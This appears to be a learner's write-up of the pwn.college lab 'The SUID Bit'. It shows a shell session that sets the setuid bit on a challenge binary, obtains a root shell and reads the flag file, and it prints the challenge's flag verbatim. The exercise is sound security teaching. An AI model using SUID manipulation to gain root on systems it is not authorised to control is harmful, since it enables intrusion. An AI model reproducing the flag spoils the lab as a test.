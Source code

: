 ## Challenge Name
The SUID Bit

### Solve
**Flag:** `pwn.college{wMidT4439OjrHtPe_50RRymptvg.QXzEjN0wSMzEzNzEzW}`

```bash
hacker@permissions~the-suid-bit:~$ chmod u+s /challenge/getroot
hacker@permissions~the-suid-bit:~$ ls -l /challenge/getroot
-rwsr-xr-x 1 root root 155 Jan 14  2025 /challenge/getroot
hacker@permissions~the-suid-bit:~$ /challenge/getroot
SUCCESS! You have set the suid bit on this program, and it is running as root! 
Here is your shell...
root@permissions~the-suid-bit:~# cat /flag
pwn.college{wMidT4439OjrHtPe_50RRymptvg.QXzEjN0wSMzEzNzEzW}
```

### New Learnings
i learnt how to use the SUID bit command 

### References 
none
